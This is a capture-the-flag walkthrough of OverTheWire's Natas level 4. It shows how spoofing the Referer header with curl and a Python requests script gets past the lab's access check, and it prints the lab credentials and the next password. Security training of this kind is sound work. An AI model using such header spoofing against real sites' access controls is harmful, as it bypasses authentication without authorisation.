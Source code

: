 # Level 3 - Level 4: Natas - OverTheWire

## Level Goal

Username: natas4
URL:      http://natas4.natas.labs.overthewire.org

## Solution
Running our `./natas.sh` script for this level produces the following message:

```txt
Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
```

My first instinct is that the server is looking for the `Referer` [HTTP request header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referer). The `Referer` header allows a server to identify referring pages that people are visiting from or where requested resources are being used. This data is typically used for analytics, logging, optimized caching, etc. 

In this case, this header appears to be required and used for authentication. The server appears to require the `Referer` header to be set to `http://natas5.natas.labs.overthewire.org/`, and because we used `curl` to make the initial request, our `Referer` is empty.

There are many ways we can do this, but I'll first show it with `curl`, and then we can write a `python` script using the requests module to accomplish the same task.

## Bash one-liner

```bash
curl http://natas4.natas.labs.overthewire.org/ -s -u natas4:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm \
-H "Referer: http://natas5.natas.labs.overthewire.org/" | grep password
```
Let's go over how this works.

First, we do a standard `curl` to the URL and include the credentials with the `-u` flag. Also, add `-s` to get an output without the progress bar.

Next, we add a `\` backslash to tell Bash that the following line continues the current line. This actually isn't needed (it can be all on one line, but this cleans up the input).

Next, we include the `-H` flag, which is used to inject headers within our `curl` command. The syntax for an HTTP header is `Header-Name: headervalue`. So we can simply inject the `Referer` header and give it the expected value of `http://natas5.natas.labs.overthewire.org/`.

Knowing what the output looks like, we can `| grep password` to quickly extract the password for `natas4`.

```bash
curl http://natas4.natas.labs.overthewire.org/ -s -u natas4:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm \
-H "Referer: http://natas5.natas.labs.overthewire.org/" | grep password
Access granted. The password for natas5 is Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD
```

## Python requests

```bash
└─$ vi natas3.py
```

```python
import requests

headers = {
    'Referer': 'http://natas5.natas.labs.overthewire.org/',
}

response = requests.get(
    'http://natas4.natas.labs.overthewire.org/',
    headers=headers,
    auth=('natas4', 'tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm'),
)

print(response.text)
```

```bash
└─$ chmod +x natas3.py
└─$ python3 natas3.py
```

This python script uses the `requests` library in Python to make a `GET` request to the URL `http://natas4.natas.labs.overthewire.org`.

The request includes several parameters:

* headers: a dictionary that specifies the HTTP header for the request. In this case, it sets the `Referer` header to `http://natas5.natas.labs.overthewire.org/`.

* auth: a tuple that contains the username and password for HTTP basic authentication.

The `requests.get()` function sends the GET request and returns the response, which is stored in the response variable. The response can then be used to access the content, status code, headers, etc. of the server's response.

We finally use `print(response.text)` to "echo" the response text to the command line, revealing the password.

